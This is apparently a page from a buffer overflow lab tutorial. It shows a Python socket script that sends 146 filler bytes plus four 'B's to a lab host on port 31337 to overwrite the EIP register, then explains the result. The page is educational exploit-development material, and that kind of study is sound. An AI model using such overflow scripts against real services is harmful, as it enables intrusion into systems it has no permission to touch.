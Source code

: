 Since we know that we can own EIP at 146 bytes, let's give it a try:
```Python
#!/usr/bin/python

import socket,sys

buffer = "A"*146 + "B"*4 
RHOST = "192.168.0.227"
RPORT = 31337

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
![Overwrite EIP](overwriteEIP.png)  

As we can see, we filled the EIP with 4 Bs (42 is the hex value of B)

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
